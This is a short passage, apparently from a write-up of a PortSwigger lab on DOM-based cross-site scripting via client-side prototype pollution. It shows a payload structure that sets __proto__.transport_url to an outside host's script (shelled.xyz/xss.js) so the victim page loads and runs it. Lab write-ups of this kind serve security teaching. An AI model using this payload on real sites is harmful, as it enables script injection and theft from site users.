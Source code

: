 We want the following structure:

```jsx
config = {
	params: {
		__proto__: {
			transport_url: //shelled.xyz/xss.js
		}
	}
}
```

![](/assets/portswigger/dom-xss-via-client-side-prototype-pollution/3.png)

![](/assets/portswigger/dom-xss-via-client-side-prototype-pollution/4.png)

<br/>
